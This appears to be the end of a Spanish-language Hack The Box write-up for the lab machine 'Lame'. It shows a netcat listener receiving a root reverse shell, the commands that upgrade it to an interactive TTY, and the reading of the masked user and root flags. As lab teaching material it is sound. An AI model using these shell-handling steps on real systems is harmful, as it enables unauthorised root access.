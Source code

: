 ```zsh
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.3] 58132
whoami
root

```
## TTY SPAWN

¡Perfecto! Somos usuario root, ya podríamos obtener `user.txt | root.txt`, pero como de costumbre vamos a spawnear una TTY totalmente interactiva para trabajar de mejor forma.

```
script /dev/null -c bash
root@lame:/# ^Z
[1]  + 6995 suspended  nc -lvnp 1234
❯ stty raw -echo; fg
[1]  + 6995 continued  nc -lvnp 1234
*************************En este momento debemos poner [reset xterm] no se nos mostrará ningún texto en pantalla, presionamos enter
root@lame:/# 

```
Ahora ya podemos trabajar de una forma adecuada con ^C, historial, flechas de movimiento, etc...


## Flags

En este momento solo nos falta buscar las flags en sus respectivos directorios.

<h4>USER.TXT</h4>

```zsh
root@lame:/home/makis# cat user.txt 
2d31xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h4>ROOT.TXT</h4>

```zsh
root@lame:/root# cat root.txt 
cb70xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```
## CONOCIMIENTOS OBTENIDOS

De la máquina <em>LAME</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos con Nmap.
- Investigación acerca de vulnerabilidades.
- Explotar una vulnerabilidad sin Metasploit.
- Spawnear una TTY totalmente interactiva.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra. <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>.

Autor de la máquina: ch4p, muchas gracias por la creación de Lame aportando a la comunidad. <a href="https://app.hackthebox.com/users/1" target="_blank">HTB</a>.
